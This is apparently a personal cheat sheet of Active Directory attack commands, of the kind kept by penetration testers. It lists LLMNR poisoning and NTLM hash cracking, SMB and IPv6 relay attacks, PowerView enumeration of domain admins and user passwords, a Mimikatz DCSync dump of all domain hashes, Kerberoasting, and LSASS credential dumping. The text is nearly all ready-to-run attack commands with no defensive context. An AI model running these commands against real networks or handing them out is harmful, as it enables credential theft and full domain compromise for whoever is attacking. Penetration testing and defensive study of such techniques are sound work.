 https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa
1. LLMNR Poisoning
```
sudo ./Responder.py -I eth0 -rdwv
hashcat -m 5600 ntlmhash.txt ../../rockyou.txt/rockyou.txt --force
```

2. SMB relay
```
nmap --script=smb2-security-mode.nse -p445 192.168.1.0/24
sudo ./Responder.py -I eth0 -rdwv
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```

6. Ipv6
```
sudo mitm6 -d marvel.local
sudo ntlmrelayx.py -6 -t ldaps://192.168.1.121 -wh fakewpad.marvel.local -l lootme
```

## Enumeration
### Powershell
```
Get-NetDomain
Get-DomainPolicy
(Get-DomainPolicy)."system access"
Get-NetDomainController
Get-NetUser
Get-UserProperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "pass"
Get-NetComputer
Get-NetGroup
Get-NetGroup *admin*
Get-NetGroupMember -GroupName "Domain Admins"
Get-NetGroup -UserName "khalid"
Get-NetLocalGroup –ComputerName Client-02
Get-NetLoggedon -ComputerName Client-02
Get-LastLoggedOn -ComputerName CLient
Invoke-ShareFinder
```
https://www.exploit-db.com/docs/english/46990-active-directory-enumeration-with-powershell.pdf

### Mimikatz
```
Mimikatz /command:"lsadump::dcsync /all"
```

## Exploit
### Kerberoast
```
rubeus kerberoast
```
### Get creds
```
SharpDump.exe
pypykatz lsa minidump sharpdumpfile
```

